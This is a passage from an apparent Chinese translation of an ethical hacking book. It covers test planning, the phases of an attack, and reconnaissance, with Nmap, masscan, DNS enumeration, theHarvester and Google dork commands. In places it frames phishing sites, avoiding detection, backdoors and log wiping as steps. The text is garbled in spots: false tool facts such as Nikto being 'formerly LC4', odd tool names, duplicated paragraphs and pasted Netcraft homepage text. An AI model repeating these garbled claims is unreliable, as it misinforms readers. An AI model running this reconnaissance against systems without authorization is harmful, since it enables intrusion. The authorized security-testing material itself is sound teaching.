专业黑客需要在此技能基础上不断完善，确保自己擅长脚本编写。业余爱好者通常依赖其他黑客编写的脚本。他们可能理解或不理解脚本，这会使他们陷入巨大的麻烦。

## 数据库

数据库帮助你以结构化的方式在计算机上存储数据，并可以通过多种方式访问。如果黑客希望入侵系统的数据库，他或她需要精通不同的数据库并理解它们的功能。数据库在必要时经常使用 `SQL` 来检索信息。因此，在决定入侵数据库之前，学习这些技能是重要的。

专业黑客总是需要熟悉数据库的操作，以确保他们不会犯错并避免被发现。

# Web 应用程序

Web 应用程序是你通过浏览器 `Chrome`、`Firefox` 等访问互联网的软件。多年来，Web 应用程序也成为黑客的首要目标。非常建议你花时间理解 Web 应用程序的功能，以及支持这些应用程序的数据库。这将帮助你创建自己的网站，无论是用于钓鱼还是任何其他用途。

本章提到的技能对于黑客开发来说是最重要的。专业黑客从一开始就致力于提高这些技能，因此擅长轻松地攻入任何系统。对于业余爱好者来说，建立这些技能至关重要。

# 第6章 伦理黑客过程

像所有项目一样，伦理黑客应该是经过计划的。

## 制定计划

在开始之前获得授权至关重要。你需要确保你所做的事情是已知的。无论是进行应用程序测试还是渗透测试，你必须进行计划。计划的第一步是获得赞助。你需要与执行者、经理联系，以确保他们支持你。在测试时，你必须获得许可。否则，他们可能会关闭一切，这表示他们允许你测试设备。

如果你在测试你的系统时，你需要来自老板的许可。如果你在测试客户，你必须确保获得书面许可。这样可以确保你的努力不会付诸东流。详细计划是必要的，因为如果你犯了错误，系统可能会崩溃。然而，这意味着你需要包含以下信息：

- 需要测试的系统
- 涉及的风险
- 测试何时执行以及持续多久
- 如何执行测试
- 你对系统的了解程度
- 当你发现重大漏洞时该怎么办
- 交付物，如安全评估报告、公司应解决的通用漏洞报告以及组织应采取的应对措施

你必须始终从最脆弱和最的系统开始测试。例如，在转向更详细的问题之前，最好从社会工程攻击或计算机密码开始。如果发生意外，准备一个应急计划始终是一个好主意。

在执行这些测试时，你应该牢记的目标之一是确保没有人察觉到攻击。例如，当你试图避免让系统用户知道你在做什么时，你可以在远程系统上或从远程办公室进行测试。如果用户察觉到了你的行为，将会影响测试结果，因为他们会提高警备。

你必须确信对系统有足够的了解，以执行黑客攻击。这有助于确保你在测试系统时能够保护这些系统。如果你是在黑自己的系统，这并不困难。如果你是在黑客户的系统，你将需要花一些时间了解它的运行机制。客户绝不会要求你提供盲目评估，因为人们害怕这类评估。

### 选择工具

与任何项目一样，如果你想成功完成任务，就必须选择正确的工具。尽管如此，没有一种工具能够一定识别所有的漏洞。你必须了解客户的技术局限性。许多安全工具会产生负面结果和假阳性结果。某些测试无法发现弱点。例如，如果你进行社会工程测试或物理安全测试，很容易漏掉一些。

某些工具只关注特定的测试，但你不能用一个工具来扫描网络上的任何开放端口，因为这没有意义。因此，你针对想要执行的测试需要特定的工具。当你有更多可用工具时，道德黑客尝试工作会变得更容易。

记住为任务选择正确的工具至关重要。你需要使用 `Hydra` 或 `John the Ripper` 等工具来破解密码。`SuperScan` 是一种通用端口扫描器，无法破解所有密码。如果你想对 Web 应用程序进行深度分析，应该使用 `WebInspect` 或 `Nikto` 等工具，因为它们比 `Wireshark` 这样的网络分析器更合适。

当你需要为任务选择正确的工具时，应该向其他道德黑客寻求建议，或者可以在在线论坛上发布你的问题并决定使用最佳工具。另一个选项是使用 `Security.com`、`SecurityFocus.com` 和 `InfoSecurity.com` 等安全门户网站来进一步了解可用工具。专家们对道德黑客可以执行的不同类型的测试提供见解。让我们来看一些免费软件、开源和商业安全工具列表：

- `Nmap`
- `EtterScan`
- `SuperScan`
- `QualysGuard`
- `WebInspect`
- `Nikto`（以前称为 `LC4`）
- `Network Security Scanner`
- `ToLoc`

在本书的后续内容中，我们将学习上述列出的某些工具。许多人经常误解这些黑客和安全工具的能力，因为 `Nmap`（网络映射器）和 `ingA`（安全管理员工具）等工具已经流行。这些工具中有些是复杂的，你应该在使用它们之前熟悉每一个工具。以下是实现这些的方法：

- 读取工具的帮助文件或 readme 文件。
- 阅读任何商业工具的用户指南。
- 参加在线课程学习更多关于该工具的知识。

## 执行计划

你需要耐心并留出足够的时间执行攻击。在执行攻击时，你必须非常小心。站在你肩膀后的员工会一直盯着屏幕上的内容，这个人将利用他们获得的信息来对付你。

不要期望在没有计划的情况下执行道德黑客攻击，因为那不会发生。你必须确保保持一切私和安静。在导出、传输和存储测试结果时，这一点至关重要。你应该尝试使用 `Pretty Good Privacy` `PGP` 等工具加密这些文件。你的任务是获取关于你正在测试系统的尽可能多的信息。这就是黑客所做的。你应该从宏观视角开始，然后缩小焦点：

1. 寻找组织名称、计算机、网络系统和 IP 地址；这些信息通常可以在 `Google` 上找到。
2. 现在，缩小范围并针对你正在测试的系统。无论你是在评估 Web 应用程序还是物理安全，随意的评估都会显示出有关系统的信息。
3. 用批判性的眼光缩小焦点并进行实际扫描。你还应该对系统进行详细测试。
4. 如果你想执行攻击，现在就做吧。

## 评估结果

你现在应该评估你的攻击结果，以识别你发现了什么。建议你假设这些漏洞以前从未被发现过；这就是结果发挥作用的地方。你需要更多的经验来评估结果并识别漏洞之间的关联性，然后你将比任何人都更了解你的系统。最后一步是向你的客户或高层管理提交正式报告并概述你的结果。你必须始终让双方都知情，向他们证明他们的钱花得得很值。

## 继续进行

当你完成道德黑客测试后，你需要实施分析并向客户提供一些建议。这将有助于确保系统的安全性。当你运行这些测试时，会出现新的安全漏洞。信息系统总会变化，这些变化将会变得更加复杂。随着时间的推移，你将发现新的黑客利用程序和更多的安全漏洞。

安全测试是你的系统安全程度的快照。你应该记住，情况随时可能发生变化，特别是当你添加新系统、应用补丁或升级软件时。因此，拥有一个通过定期测试来评估系统安全性的计划是非常重要的。

# 第 7 章 道德黑客的阶段

如之前提到的，在开始合规地攻击系统或网络之前，你应该遵循一个流程。本章涵盖了道德黑客过程的不同阶段，这将帮助你或任何其他道德黑客规划攻击。每个组织或公司都有一份安全手册，以不同的方式解释这一过程。大多数认证道德黑客遵循在本章中讨论的六阶段。

## 侦察

流程的第一阶段是侦察阶段。这个阶段也被称为信息收集阶段。黑客在这个阶段应该收集关于目标系统或尽可能多的信息。通常会收集以下小组的信息：

1. 主机
2. 网络
3. 人

侦察分为两类：主动和被动。

### 主动侦察

在这种侦察中，黑客将直接与目标系统或计算机交互以收集信息。例如，黑客可以使用 `Nmap` 工具扫描网络或系统。

### 被动侦察

在这种侦察中，黑客将尝试在不与网络直接交互的情况下收集信息，从网站、社交媒体等处收集数据。

## 扫描

在此阶段，黑客需要探测目标系统，并寻找任何可以利用的漏洞。为了实现这一目的，黑客可以利用 `Nexpose`、`Nessus` 和 `Nmap` 工具。

## 获取访问


一旦黑客在系统或网络中识别出漏洞，他或她将需要利用该漏洞来确定是否可以进入系统。为了这一目的，大多数黑客会使用一个名为 `Metasploit` 的工具。

## 维持访问

一旦黑客获得了系统的访问权限，他或她将需要安装一个后门或陷阱门。这将允许黑客在未来任何需要的时候进入系统。大多数人倾向于在此阶段使用 `Metasploit`。

## 擦除痕迹

这是整个过程中不符合道德的部分，黑客需要删除他们在黑客攻击系统过程中执行的每项活动的日志。

## 报告

道德黑客流程的最后一个阶段是报告。在这个阶段，道德黑客需要准备一份报告，列出他们所有的发现，并需要说明用于执行攻击的工具和方法。报告应该包含系统中发现的漏洞，并列出黑客想要实施的解决方案。

请记住，上述阶段并不是一成不变的。作为一名道德黑客，你随时可以更改流程或使用不同的工具。你需要确保自己对该流程很熟悉。只要你实现了所想要的结果，就不必担心固守本章提到的步骤。

# 第 8 章

## 制定道德黑客计划

如前所述，道德黑客在开始任务之前对自己的努力进行计划是非常重要的。你不需要创建一个详尽的计划，但应该提供有关你将作为练习的一部分要做什么的信息。你应该提到为什么进行道德黑客攻击是重要的，并对流程进行良好的结构安排。

无论你是在测试一组计算机还是一个 Web 应用程序，你都必须提到你的目标并定义测试范围。你还应该确定你测试产品时将使用的标准。当你写好计划后，应该收集不同的工具并熟悉这些工具。本章将提供有关如何创建一个能够改进道德黑客流程的环境的信息，以确保你的成功。

### 获得计划批准

获得计划批准非常重要，而做到这一点的第一步是获得赞助。这种批准应该来自执行管理人员、客户、经理或你自己。否则，测试可能会被取消，或者有人可能会拒绝这些测试的授权。某些情况下，任何未经授权的攻击都可能导致法律后果。你必须确保你清楚自己在做什么，并且你所有的行动都是可行的。

如果你在自己的系统上运行这些测试，这种许可可以是高级管理层的一份简单备忘。如果你为客户执行这些测试，你应该在获得客户许可和授权的情况下拥有的签署协议。获得书面批准是非常重要的，以确保你的时间和精力不被白费。

如果你有一支道德黑客团队或是一名独立顾问，你应该从专门从事商业保险的代理处购买职业责任险。这种保险很昂贵，但拥有这种保障是非常重要的。

### 确定要攻击哪些系统

你可能不想一次评估你所有系统的安全性。这可能会导致更多问题，而且是一项艰巨的任务。这并不是说人们不应该检查存在的每一个计算机和应用程序；而是建议在时机成熟时，将道德黑客任务分解成更小的任务，以确保易管理。

你可以根据风险分析以及对以下问题的回答决定你想要测试的系统：

- 最重要的系统是哪些？
- 如果系统被攻击，最大的损失是什么或会带来最大的麻烦？
- 哪个系统最容易受到攻击？
- 哪些系统的管理不力？

在确定目标后，你就可以决定哪些系统需要进行测试。这一步有助于人们仔细地规划他们的预期，并确保可以估计工作所需的时间和资源。

下表列表包含了你应该考虑执行黑客测试的应用程序和系统：

- 防火墙
- 路由器
- 整个网络基础设施
- 无线接入点和桥器
- 应用程序、Web 服务器和数据库服务器
- 工作站、笔记本电脑和平板电脑
- 电子邮件和文件/打印服务器
- 带有机密信息的移动设备（如 PDA 和手机）
- 客户端和服务器操作系统
- 客户端和服务器应用程序，如电子邮件或其他内部系统

选择要测试的系统取决于几个因素。如果你工作的网络很小，从一开始就可以测试所有内容。测试对公众开放的主机（如 Web 服务器、电子邮件和其他相关应用）更好。黑客攻击是灵活的，所有的决定都应该基于最符合业务逻辑的事物。

开始着手的地方通常是最脆弱的节点。你应该考虑以下问题：

- 你的计算机或应用程序位于网络的哪个位置？
- 它运行什么应用和操作系统？
- 它的保存了什么类型的重要信息？

如果被攻击的系统是你自己的或客户的，之前的安全风险评估或漏洞测试就会生成这些信息。如果已经进行过，此类文档将有助于指向需要进一步处理的系统。道德攻击总是比普通攻击高几步。理想是从可见性最好的系统开始。之后你可以关注 Web 服务器或应用程序。

## 时机

# 第 9 章

## 侦察

如前所述，侦察阶段是黑客了解系统并收集攻击系统所需信息的阶段。这一阶段包括一系列过程：指纹识别、扫描和枚举。这些过程都将在接下来的章节中详细介绍。

在侦察期间，黑客应该尽力收集有关目标网络或系统的信息。为了这一目的，黑客应该遵循以下步骤：

1. 收集初始信息
2. 确定网络范围
3. 识别网络上的活动机器
4. 发现网络中的接入点和开放端口
5. 操作系统指纹
6. 发现端口提供的任何服务
7. 绘制网络地图

我们将在本书后续章节中介绍这些步骤。现在让我们详细介绍主动侦察和被动侦察，以及执行这些活动所需的不同工具。

### 主动侦察

如前所述，主动侦察是黑客直接与系统或网络交互以获取信息的阶段。收集的信息应该是准确且与系统或网络相关的。然而，如果黑客没有获得许可，可能会被检测到。如果被发现，系统管理员可以对黑客采取行动。

#### 使用工具

##### SQLMap

这是一个开源的渗透测试工具。黑客可以使用此工具检测 SQL 注入攻击并利用该攻击中的漏洞。该工具带有许多小众功能，包括一个强大的检测引擎，这是任何渗透测试数据都必不可的。它还带有不同的开关，包括从被攻击或弱点数据库中获取数据、访问不同的文件，以及使用带外连接（`out-of-band`）和数据库指纹在操作系统上执行敏感命令。

##### Nessus

`Nessus` 曾经是开源且免费的，但现在是 Tenable 销售的。。黑客用它来发现网络上的所有可用资产，包括难以发现的资产，如虚拟机、容器、主机设备和移动设备。该工具将为黑客提供网络漏洞信息，并帮助他或她确定应该修复哪些漏洞。该工具可以用于扫描云或本地网络。大多数黑客会将此工具作为漏洞扫描器推销给客户。

### 被动侦察

如前所述，在被动侦察中，黑客可以在不与系统直接交互的情况下收集有关系统所需的信息。

#### 使用的工具

##### Netcraft.com

一家名为 Netcraft 的英国公司跟踪曾经开发过的每一个网站。它几乎是通过虚拟化来实现的，并使用这些数据计算 Web 服务器的运行时间、市场份额和其他重要信息。该网站提供许多安全服务，包括钓鱼警报和反钓鱼扩展。`Netcraft` 还为黑客和其他用户提供有关互联网上每个网站的数据。这些数据对于伦理黑客和恶意黑客都是有用的。

##### HTTrack.com

该网站允许用户将互联网上的任何网站下载到本地目录。它还可以用于直接从服务器获取不同的 HTML 和其他文件到计算机。黑客使用此工具获取原始的链接结构。黑客随后可以研究网站所有的漏洞并离线制作后门。这将帮助黑客在任何网络或系统上执行活动，而不被系统管理员发现。

# 第 10 章

### 足迹追踪 (Footprinting)

如前文提到的，足迹追踪是侦察的过程之一，用于收集有关目标网络或系统的信息。这可以通过主动足迹追踪和被动足迹追踪完成。

例如，通过查看公司网站来获取信息是被动足迹追踪，而利用社会工程获取某些敏感信息则是主动足迹追踪。这是黑客收集其找到进入目标网络系统途径所需的所有信息。如果黑客不想入侵系统，他或她可以决定哪些攻击适用于目标网络和系统。

在足迹追踪阶段，黑客可以收集如下类型的信息：

- IP 地址
- 域名
- 员工信息
- 命名空间
- 电子邮箱
- 电话号码
- 工作信息

接下来的章节将讨论如何从任何基于互联网的目标网络或系统提取提取基础信息。

#### 域名信息

如果你想获取有关目标网站或域名的某些详细信息，你可以使用这个网站：`http://www.whois.com/whois`。该网站将帮助你获取海量信息，包括所有者名称、注册局、过期时间、服务器名称、注册日期以及所有者的联系方式。

`https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_footprinting..`

#### WHOIS 查询


你可以通过以下链接找到从 Google.com 提取的信息的示例记录：`https://www.whois.com/whois/google.com`。

### 快速修复 (Quick Fix)

维护私有域名始终非常重要。这将确保破解者或其他任何黑客都不会获取有关网站的信息。

#### 查找 IP 地址

你可以在命令行提示符或脚本语言中输入 `ping` 命令。`ping` 命令在 Linux 和 Windows 操作系统上均可用。

以下是查找目标网站 IP 地址的一种方法：
```
$ping <targetwebsite>
```

对于一个名为 `tutorialspoint.com` 的网站，你将获得下面的结果：


```
PING tutorialspoint.com (66.135.33.172) 56(84) bytes of data.
64 bytes from 66.135.33.172: icmp_seq = 1 time = 64 = 0.028 ms
64 bytes from 66.135.33.172: icmp_seq = 2 time = 64 = 0.021 ms
64 bytes from 66.135.33.172: icmp_seq = 3 time = 64 = 0.021 ms
64 bytes from 66.135.33.172: icmp_seq = 4 time = 64 = 0.021 ms
```

### 查找托管公司

当你有一个网站地址时，可以使用 `ip2location.com` 获取有关网站的更多信息。下面的示例将显示如何获取：

| 字段名称 | 值 |
|---|---|
| IP 地址 | 49.205.122.168 |
| 国家 | India |
| 地区与城市 | Kukatally, Telangana |
| 纬度和经度 | 17.4833, 78.4167 |
| 邮编 | 508126 |
| ISP | Beam Telecom Ltd |
| 域名 | beamtele.com |
| 时区 | +05:30 |

### 快速修复

如果目标网络或系统直接连接互联网，隐藏 ISP 是困难的。大多数专家建议使用虚拟网络（VPN）来隐藏 IP 地址。这样流量将只通过 VPN 路由。

### IP 地址范围

小型网站可以关联一个 IP 地址，但大型网站可能连接到不同的 IP 地址，因为该网站服务于多个域名和子域名。美国注册局 `ARIN` 可用于获取分配特定公司的 IP 地址范围。你可以在搜索框中输入任何公司的名称并获取与该公司相关的 IP 地址列表。


### 网站历史

可以通过 `archive.org` 获取网站的历史。你只需要在搜索框中输入域名名称并查看网站的状态。你还可以查看在不同日期网站上提供的不同页面。


### 快速修复

将网站留在存档数据库中有许多优点，但如果你不想让黑客或其他任何个人查看网站是如何演变的，你随时可以去 `archive.org` 并删除有关你网站的详情。

## 被动足迹追踪

在被动足迹追踪中，黑客使用不同的工具和资源，在不直接于目标环境的情况下获取有关目标域名或网络的所有信息。目标是以隐蔽的方式获取信息。

## 链接与命令

本节涵盖了后续部分将使用的一些链接和命令。你可以将其作为方便的参考词汇表。

## WHOIS

+ - https://whois.icann.org/en

### GHDB

https://www.exploit-db.com/google-hacking-database/

通过 Google 搜索目标网站上的数据：

`<search string> site:<website domain name>`

通过 Google 搜索目标出现在 URL 中的位置：

`inurl: <target name>`

通过 Google 搜索社交媒体上关于目标的信息：

`<target name> site:twitter.com, <target name> site:facebook.com, 等。`

通过 Google 搜索招聘网站上关于目标的信息：

`<target name> site:indeed.com, <target name> site:monster.com, 等。`

### Netcraft

https://www.netcraft.com

## OnSameIP

http://onsameip.com.ipaddress.com

## SameIP

http://www.sameip.org

## DNS Tools

```
dnsrecon <target domain> -w
dnscan -d <target domain> -w <subdomain text file> -v
dmitry -winse <target domain>
theharvester -d <target domain> -l 500 -b google
python Belati.py -d <target domain>
```

## WHOIS

使用 WHOIS 查询开始被动足迹探测（passive footprinting）始终是一个好主意。你可以利用此工具获取有关域名分配者和注册用户的信息。你也可以利用不同的资源来执行此功能。专业黑客倾向于在 ICANN 平台（https://whois.icann.org/en）上进行 WHOIS 查询。

## Google Hacking 或 Google Dorks

如果你知道在何以及如何查找，你就可以获得关于目标的宝藏式信息。Google Dorks 是一系列查询字符串，可用于收集有关目标网络或系统的必要信息。有近 1000 种不同的 Google Dorks 可用于此目的。你可以在以下网站上获取此列表：https://www.exploit-db.com/google-hacking-database/

本节 [27] 列出了黑客在开始练习时使用的一些常用工具。如果你想收集一些额外信息，可以随时在练习结束时重新查看这些工具。

通用搜索：

`<target name>`

搜索目标网站上的数据：

`<search string> site:<website domain name>`

查看目标名称出现在网络 URL 中的位置：

`inurl: <target name>`

从上传网站抓取图像和文本：

`inurl:admin inurl:uploads site:<website domain name>`

## 社交媒体

社交媒体平台始终提供关于目标网络或系统的大量信息。此工具将帮助你收集有关组织员工的信息、他们使用的工具、正在使用的技术和其他信息。大多数黑客使用 Google Dorks，因为它是筛选海量社交媒体数据最简单的方法之一。它让任务变得简单且不再痛苦。你可以使用以下命令从任何社交媒体平台获取所有信息：`<target system> site: <social media platform>`。

从社交媒体网站可以获得的信息量大得惊人。因此，不跳过这一步至关重要。

## 招聘网站

可以使用招聘网站获取有关组织执行必要功能所需的不同技术的信息。你可以使用 Google Dorks 查找这些网站，例如输入以下命令之一：`<target name> site:monster.com, 等。`

## 新闻稿或公共网站

可以使用公共网站或由目标托管的任何其他数字资产来获取更多信息。这些信息可以在道德黑客练习的后期阶段使用。也可以利用组织收集数据，因为它会提供有关关键员工的信息，并提到该组织最近实施的任何重要项目和技术。

### Netcraft

如前所述，该工具提供多种服务，包括反欺诈、钓鱼和反钓鱼服务。你可以使用页面上的 Netcraft 工具栏收集运行在相同或不同目标域名上的许多网站的信息。此工具将为你提供大量数据，包括托管提供商、IP 地址和使用的技术。

# 网络安全与数据挖掘

Netcraft 提供网络安全服务，包括反欺诈和反钓鱼服务、Web 服务器应用程序监控、操作系统安全。


最新新闻

- 2017 年 6 月最可靠的钓鱼公司网站
- 最佳 Web 服务器调查
- 5 月最可靠的钓鱼公司网站

联系我们

+44 (0) 1234 447502

info@netcraft.com

您的网站正在运行什么？

我们可以帮助保护您的网站。

经 Netcraft 审计

本网站由我们审计

## 保护您的客户

反钓鱼

- 保护您的品牌免受冒充您的钓鱼网站攻击
- 使用我们独特的钓鱼过滤器，这是最有效的
- 反钓鱼服务
- 开发并提供身份保护服务
- 监控您的网站是否有恶意内容
- 了解更多

安全测试

互联网数据挖掘

性能

解决方案适用于...

- 银行
- 域名机构
- 域名注册商
- 托管公司
- 投资与风险投资
- 安全提供商
- 软件行业

报告可疑 URL

如果您收到钓鱼信息，请报告该 URL

## SameIP

当你发现与域名关联的 IP 时，你可以揭露一些信息。这种工具越越多越好。以下是可用网站：

- https://sameip.org
- https://onsameip.com.ipaddress.com

## DNS

DNS 是足迹阶段最好的工具之一。该工具将为你提供目标地址列表、SRV 记录以及域名的任何特殊配置。


大多数操作系统都带有一个名为 `nslookup` 的内置 DNS 工具，用于调查。本节涵盖了市场上的一些工具。

## DNS Recon

DNS Recon 是一个可以用于 DNS 侦察的工具。可以通过以下链接安装：https://github.com/darkoperator/dnsrecon。当你安装 DNS Recon 后，可以运行命令：`dnsrecon <target domain> -w`。在该命令中，`-w` 表示工具应执行 WHOIS 记录分析。输出将包含主机地址、WHOIS 记录、IP 地址和名称服务器。它还会提供其他 DNS 信息和 MX 记录。

## dnscan

`dnscan` 是一种可以通过 GitHub 脚本安装的 DNS 侦察工具。可以通过以下链接下载脚本：https://github.com/rbsec/dnscan。该工具与 DNS Recon ，但带有一个填充了子域名的字典。帮助你获取所看域的子域名。
如果你想运行此工具，应该输入以下命令：`python dnscan -d <target domain> -w <subdomain text file>-v`。该工具具有存在 GitHub 仓库中的子域名文件。如果你需要任何子域名文本文件，这些文件非常有用。`-v` 用于增加脚本输出的详细程度。

## Dmitry

`Dmitry`（Deepmagic 信息收集工具）是另一种网络搜索或 DNS 足迹探测侦察工具。该工具仅在 Linux 系统上运行，可以通过访问网站进行安装：https://www.aldeid.com/wiki/Dmitry。你应该运行命令 `dmitry -winse <target domain>` 来扫描目标网络或系统。

## theHarvester

此工具将帮助你从早期阶段收集所有必要信息。它是一个枚举工具，通常被黑客在道德黑客循环的足迹探测阶段使用。该工具可以收集以下信息：子域名、电子邮件地址、员工姓名、主机等。你可以通过以下网站安装该工具：https://github.com/laramies/theHarvester。你可以使用命令提示符 `theharvester -d <domain> -l <number of searches e.g. 500>-b <search engine e.g. google>` 来运行此工具。

## Belati

`Belati` 是市场上的一款新工具，其功能与本章提到的早期工具相似。你可以通过以下链接安装它：https://github.com/ancwc/Belati。这是作者的页面，你只需要按照安装工具时提供的说明操作。该脚本用 Python 编写，并在报告方面使用了 Django Web 框架。该工具可以枚举 HTTP banner，并检查 Google WHOIS、GIT 和子域名。下方包含了一个示例输出。
如果你想运行 Belati，应该在 Belati 目录下的 Python 中输入命令 `Belati.py -d <target domain>`。


## 主动足迹探测工具

既然你已经理解了匿名概念，让我们进入主动足迹探测。你可以使用不同的工具来实现此目的，并使用这些工具询问目标网络或系统。
下一步是识别目标中运行的不同服务。在这一步中，我们仅识别并理解目标的范围。本节介绍了四种可以执行主动足迹探测的工具。这些工具包括：
- 1. Nmap ping sweep
- 2. Traceroute 工具
- 3. Masscan ping sweep
- 4. Data Miner

### Nmap ping sweep

你应该在被动足迹探测阶段识别了目标的 IP 范围。现在你需要对每个识别出的范围进行主动扫描，以检测网络上活跃的设备。`Nmap` 一直是想要扫描网络的黑客的首选，尽管它可以用于比简单的网络主机扫描。你可以在官方网站上更多关于该工具的信息。
要运行 ping sweep，请输入以下命令：

```
nmap -sn <IP Range>
```

下面的图片显示了一个示例：



### Traceroute

`Traceroute` 是一个集成在不同操作系统中的工具。它是一个网络实用工具，用于追踪你的系统 IP 到目标系统 IP 的路由。该工具可以用于识别放置在你系统和目标系统之间的路由器、网关和防火墙。
你可以在 Linux 系统上使用以下命令运行 traceroute：

```
traceroute <Fully Qualified Domain Name> or <IP Address>
```

下面的示例提供了关于你的系统和目标网络的信息。你可以看到目标机器和源机器之间有十五跳。如果你想了解更多关于目标系统或网络的信息，获取这些跳节点的信息是非常重要的。



### Masscan

`Masscan` 是一个与 Nmap 类似的工具，但它比后者更快。
该工具每秒可以发送接近百万个数据包。
如果你想运行 ping sweep，可以利用以下命令：

```
masscan -range <IP Range> --ping
```

下面的图片显示了此扫描的输出：



## Data Miner

每个域名或网站都会有一个公开网站，为黑客提供一些在道德黑客过程中需要收集和分析的相关且有用的信息。如果目标是一个大型网站或域名，你需要一个工具从网站上收集所有必要信息。这些工具有助于收集和分离从目标网站收集的信息。
你可以使用的最好的工具之一是名为 Data Miner。它是 Google Chrome 的一个扩展，并带有两个通用版本——一个用于收集网站上的电子邮件地址，另一个用于收集网站上的链接。以下示例将向你展示该工具如何工作：


如果你安装了 Recipe Creator，你就可以开发自己的数据爬取方法。

# 第 11 章

## 指纹识别

操作系统指纹识别定义为道德黑客中用于了解更多远程系统所使用的操作系统的方法。这可以通过主动或被动指纹识别来实现。

### 主动指纹识别

你可以通过向目标系统发送一些数据包来主动对远程系统进行指纹识别。这些数据包应该经过特殊构造。记录响应是非常重要的。这将帮助你理解目标系统。在本章中，我们将详细介绍你如何识别操作系统。

### 被动指纹识别

被动指纹识别是通过使用像 Wireshark 的嗅器完成的。通过追踪，你可以获取关于目标系统的数据。被动指纹识别是通过使用像 Wireshark 的嗅器完成的。通过追踪，你可以获取关于目标系统的数据。

### 基础步骤

你应该始终了解目标。下一步是识别目标中运行的不同服务。在这一步中，我们仅识别并理解目标的范围。本节介绍了四种可以执行主动足迹探测的工具。这些工具包括：
- 1. Nmap ping sweep
- 2. Traceroute 工具
- 3. Masscan ping sweep
- 4. Data Miner

```
nmap -O -v tutorialpoint.com
```

https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_fingerprinting

有时，黑客使用的操作系统可能不支持 Nmap 命令。在这些情况下，黑客可以使用下面的 `yum` 命令：

```
$yum install nmap
```

如果你想更好地理解与系统相关的不同功能并深化这些知识，详细了解 Nmap 命令是非常关重要的。理解 Nmap 也能帮助你保护系统免受任何恶意攻击。

### 快速修复

使用 VPN 或代理服务器（proxy-xy server）来保护主系统始终是一个好主意。这将确保系统的身份是安全的，并使主系统始终处于安全状态。

## 端口扫描

在上面的章节中，你看到了 Nmap 命令提供的信息。下面的命令将列出服务器上所有开放的端口。

| PORT | STATE | SERVICE |
| 22/tcp | open | ssh |
| 80/tcp | open | |
| 443/tcp | open | https |
| 3306/tcp | open | mysql |

https://www.tutorialspoint.com/ethical_hacking/ethical_hacking_fingerprinting

使用以下命令也可以很容易地查看特定端口是活动还是关闭：

```
$nmap -sT -p 443 tutorialpoint.com
```

你将获得以下结果：

Starting Nmap 5.51 ( http://nmap.org ) at 2015-10-04 10:19 CDT


Nmap scan report for tutorialspoint.com (66.135.33.172)

Host is up (0.000067s latency).

# PORT STATE SERVICE

443/tcp open https

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds

一旦黑客知道了不同的开放端口，通过这些开放端口对系统进行攻击将变得很容易。

## 快速修复

经常检查系统以确保每个不需要或非活跃的端口都已关闭至关重要。这将保持系统免受有害攻击。

# Ping 扫描 (Ping Sweep)

Ping 扫描是一种扫描网络以从一组主机中确定目标系统 IP 地址的方法。这也被称为 ICMP 扫描。大多数黑客使用 `fping` 命令执行扫描。这使用 ICMP（或互联网控制消息协议）echo 来确认主机是否处于活动。这与普通的 `ping` 命令不同，因为你可以指定包含主机列表的文件，或者简单地在命令行上指定主机列表。如果主机在特定的时间限制内没有响应，命令将判断其为非活动状态。

## 快速修复

如果你想在网络上禁用 Ping 扫描，很容易阻止来自外部源的任何 ICMP echo。要做到这一点，你应该在 `iptables` 中创建一个防火墙。可以通过以下命令完成：

```
$iptables -A OUTPUT -p icmp --type echo-request -j DROP
```

# DNS 侦举 (DNS Enumeration)

DNS，或域名服务器，类似于地址簿或地图。这像是一个分发式的数据库。它可以用于将命名的网站翻译为 IP 地址，反之亦然。这是一个定位每个 DNS 服务器并获取有关该组织相应记录的过程。其目标是在发起攻击之前尽可能多收集有关目标的信息。

要获取有关主机和 DNS 的信息，你可以在 Linux 上使用 `nslookup` 命令，并使用 `DNSenum` 脚本获取有关任何域的详细信息。该脚本可以执行下面列出的操作：

- 获取 MX 记录
- 获取主机的地址
- 获取名称服务器
- 在名称服务器上执行 axfr 查询
- 对网络范围执行反向查找
- 使用 Google 爬虫获取域和子域名称
- 计算 C 类域网络范围
- 在网络范围上使用 WHOIS 进行查询
- 从文件暴力破解子域

## 快速修复

遗憾的是，DNS 侦举没有快速修复方法，且唯一的修复方法超出了本书的范围。在任何系统上防止 DNS 侦举都是困难的。如果你不保护你的 DNS，你将丢失大量关于组织或网络的敏感信息，因为可能会发生未经授权的 DNS 区域传输（zone transfer）的发生。

# 第 12 章

# 嗅探 (Sniffing)

